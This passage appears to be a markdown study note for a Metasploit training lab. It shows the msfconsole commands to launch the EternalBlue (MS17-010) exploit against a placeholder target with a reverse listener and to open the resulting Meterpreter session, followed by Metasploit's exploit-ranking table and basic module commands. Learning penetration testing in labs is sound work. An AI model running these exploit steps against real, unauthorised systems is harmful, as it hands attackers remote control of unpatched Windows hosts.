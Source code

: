 ```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target-ip>
set LHOST <your-attackbox-ip>
exploit -z
```

Once exploitation succeeds:

```bash
sessions
sessions -i 1
```

This allows interaction with the active Meterpreter session.

---

### 📊 Exploit Ranking in Metasploit

When using the `search` command to find exploits or modules, you'll often see a "Rank" column. This shows the reliability and stability of the module.

Below is the official ranking table used by Metasploit:

![Exploit Ranking Table](https://github.com/user-attachments/assets/633d7d75-f54f-4a74-92ec-5d69e804646d)

| Rank             | Meaning                                                                 |
|------------------|-------------------------------------------------------------------------|
| ExcellentRanking | Very stable, safe to use, no crash expected                             |
| GreatRanking     | Default target + version detection + safe return handling               |
| GoodRanking      | Default target, typical cases (e.g. Win7, Server 2012)                  |
| NormalRanking    | Reliable but version-dependent, may not autodetect                      |
| AverageRanking   | Unstable or less effective in most scenarios                            |
| LowRanking       | Rarely successful, <50% success rate, platform-dependent                |
| ManualRanking    | Mostly DoS or requires custom tuning, not auto-usable                   |

> 📘 Source: [Rapid7 Exploit Ranking Guide](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)


---

## ⚙️ Task 4 - Working with Modules

### 🔍 Common Commands:
- `search <term>`: Locate modules
- `use <module>`: Load a module
- `show options`: View required parameters
- `set <param> <value>`: Assign value
- `setg <param> <value>`: Set global value
- `unset`, `unset all`: Clear parameters
